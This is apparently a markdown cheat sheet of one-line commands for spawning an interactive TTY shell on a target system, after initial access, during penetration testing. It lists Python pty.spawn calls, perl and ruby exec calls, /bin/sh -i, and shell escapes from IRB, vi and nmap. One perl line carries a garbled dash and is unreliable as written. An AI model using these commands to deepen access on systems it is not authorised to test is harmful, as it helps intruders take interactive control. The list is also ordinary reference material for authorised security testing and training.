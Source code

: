 # TTY-Shell
Here are some commands which will allow you to spawn a tty shell. Obviously some of this will depend on the system environment and installed packages.
# match the target system
## Shell Spawning
- `python -c 'import pty; pty.spawn("/bin/bash")'`
- `python -c 'import pty; pty.spawn("/bin/sh")'`
- `python3 -c 'import pty; pty.spawn("/bin/bash")'`
- `python3 -c 'import pty; pty.spawn("/bin/sh")'`
- `echo os.system('/bin/bash')`
- `/bin/sh -i`
- `perl —e 'exec "/bin/sh";'`
- `perl: exec "/bin/sh";`
- `ruby: exec "/bin/sh"`
## (From within IRB)
- exec "/bin/sh"
## (From within vi)
- :!bash
- :set shell=/bin/bash:shell
## (From within nmap)
- !sh
